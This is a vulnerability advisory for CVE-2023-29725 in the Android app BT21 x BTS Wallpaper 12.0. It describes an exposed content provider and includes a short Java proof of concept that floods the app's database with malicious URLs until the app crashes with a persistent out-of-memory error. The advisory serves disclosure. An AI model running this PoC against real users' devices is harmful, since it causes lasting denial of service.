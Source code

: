 ## Denial of Service exists in BT21 x BTS Wallpaper（CVE-2023-29725）

Vendor：bungaakpstudio007

Affected product：BT21 x BTS Wallpaper(com.bungaakp007.bt21wallpaperoffline130920)

Version：12.0

Download link：https://apkpure.com/cn/bt21-x-bts-wallpaper-hd-4k/com.bungaakp007.bt21wallpaperoffline130920/download/12-APK

Description of the vulnerability for use in the CVE：The BT21 x BTS Wallpaper app 12 for Android allows unauthorized applications to actively request permission to insert data into the database that records information about a user's personal preferences and will be loaded into memory to be read and used when the application is opened. By injecting data, the attacker can force the application to load malicious image URLs and display them in the UI. As the amount of data increases, it will eventually cause the application to trigger an OOM error and crash, resulting in a persistent denial of service attack.



poc：

```java
public void attack(){
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        while (true) {
            Uri uri = Uri.parse("content://com.bungaakp007.bt21wallpaperoffline130920/wall");
            ContentValues contentValues = new ContentValues();
            contentValues.put("nama",Malicious_url);
            contentResolver.insert(uri,contentValues);
        }
    }
```



